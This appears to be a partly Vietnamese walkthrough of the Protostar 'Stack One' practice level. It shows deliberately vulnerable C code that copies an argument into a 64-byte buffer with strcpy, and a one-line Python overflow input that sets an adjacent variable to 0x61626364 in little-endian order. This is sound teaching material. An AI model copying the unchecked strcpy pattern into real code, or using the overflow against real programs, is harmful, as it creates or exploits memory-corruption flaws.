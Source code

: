 # STACK ONE

## About

This level looks at the concept of modifying variables to specific values in the program, and how the variables are laid out in memory.

This level is at /opt/protostar/bin/stack1

Hints
  
  * If you are unfamiliar with the hexadecimal being displayed, “man ascii” is your friend.
  * Protostar is little endian

## Source code

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

## Solutions

`STACK ONE` là nâng cấp của `STACK ZERO` với yêu cầu bây giờ là chúng ta thay đổi giá trị của biến `modified` bằng giá trị được yêu cầu là `0x61626364` và thay việc lấy stdin từ gets thì `buffer` được sao chép các ký tự từ `argv[1]` - `Đối số thứ nhất của chương trình` thông qua hàm strcpy() cũng có thể khai thác buffer overflow.

`$ man strcpy`

```
BUGS
       If  the  destination  string  of  a  strcpy() is not large enough, then anything might happen.
       Overflowing fixed-length string buffers is a favorite cracker technique  for  taking  complete
       control  of  the  machine.  Any time a program reads or copies data into a buffer, the program
       first needs to check that there's enough space.  This may be unnecessary if you can show  that
       overflow  is  impossible, but be careful: programs can get changed over time, in ways that may
       make the impossible possible.
```

Hàm strcpy() có thể buffer overflow khi chuỗi đích không đủ giá trị để chứa chuỗi coppy từ chuỗi nguồn -> ghi đè lên các thành phần khác trong STACK

Một lưu ý nữa từ Hint là `Little Edian` vậy nên thay vì nhập `\x61\x62\x63\x64` (abcd) thì sẽ là  `\x64\x63\x62\x61` (dcba)

```
root@protostar:/opt/protostar/bin# ./stack1 $(python -c 'print "A" * 64 + "dcba"')                      
you have correctly got the variable to the right value 
```

## Documents

<https://itandsecuritystuffs.wordpress.com/2014/03/18/understanding-buffer-overflows-attacks-part-1/>

<https://www.coengoedegebure.com/buffer-overflow-attacks-explained/>

<https://en.wikipedia.org/wiki/Endianness>

